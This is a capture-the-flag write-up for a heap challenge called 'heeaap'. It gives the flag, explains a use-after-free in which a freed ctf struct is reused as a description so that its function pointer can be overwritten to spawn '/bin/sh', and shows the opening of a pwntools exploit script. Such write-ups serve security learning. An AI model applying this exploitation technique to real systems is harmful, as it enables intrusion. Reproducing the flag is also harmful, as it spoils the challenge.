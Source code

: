 ## heeaap
### Flag proof
```CTF{9b93e344611c1fa883es647n5a26130s23124ae5e56bc5005a319a710ae55a92}```
### Summary
Use after free. We can free a `ctf` then add the `description`, and the new `description` pointer will be the actual old `ctf` pointer. However when writing a description we are allowed to write more, allowing us to overwrite the function that prints a ctf to whatever we want.
### Details

First let's analyze the binary.

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/d2c25362-83a4-4e71-b025-50ce1fc3dca9)


Notice how we are allowed to read more when adding a description, adn how we can never have the abs(no_ctf - no_descriptions) be more than 1.


![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/717f0036-438b-4e56-9255-a129c909920a)


In the rest of the cases we can see that we can only free the most recently added ctf or description, and that to print, we must have at least 1 ctf and 1 description, but we can use whatever index we want. Here is where the use after free comes in.
Esentially the flow is something like this. Add a ctf, add a description, add a ctf, free it, add a description (this is where the freed ctf will be used). This last description is where we place our payload. We write the string to be "/bin/sh" then we overwrite the function pointer placed at offset 56. We add the first one dummy ctf and one description such that the check for printing won't fail.

Final script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./heap")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("34.159.3.253", 31862)

    return r
r = conn()

def add_ctf(name):
    r.recvuntil(b"Choose: ")
    r.sendline(b"1")
    r.sendlineafter(b"Enter ctf details: ", name)

def add_desc(desc):
    r.recvuntil(b"Choose: ")
    r.sendline(b"2")
    r.sendlineafter(b"Enter ctf description: ", desc)

```